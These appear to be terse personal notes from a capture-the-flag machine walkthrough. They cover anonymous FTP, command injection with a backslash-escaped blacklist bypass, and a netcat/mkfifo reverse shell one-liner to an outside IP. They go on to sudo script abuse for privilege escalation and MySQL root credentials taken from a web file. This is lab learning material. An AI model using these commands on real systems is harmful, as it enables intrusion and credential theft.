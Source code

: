 21 ftp anon login allowed -> get note.txt  Anurodh  Apaar
22 ssh
80 http

/secret/ allows command executing

l\s -al
c\at index.php -> a blacklist cmd

r\m /tmp/f;mkfifo /tmp/f;ca\t /tmp/f|/bin/s\h -i 2>&1|n\c 10.8.110.79 4444 >/tmp/f (using \ to bypass cmd injection)

-> get rev shell

3 users:

only apaar can access to 
apaar sudo: .helpline
	requires 2 input: $user and $cmd
	$cmd move directly to /dev/null -> might be use to escalate to apaar user
	type in /bin/bash -> escalated to apaar user


check /var/www/files/index.php we can find a mysql database: ew PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");

mysql -u root -p webportal
password !@m+her00+@db
	get anurodh password: masterpassword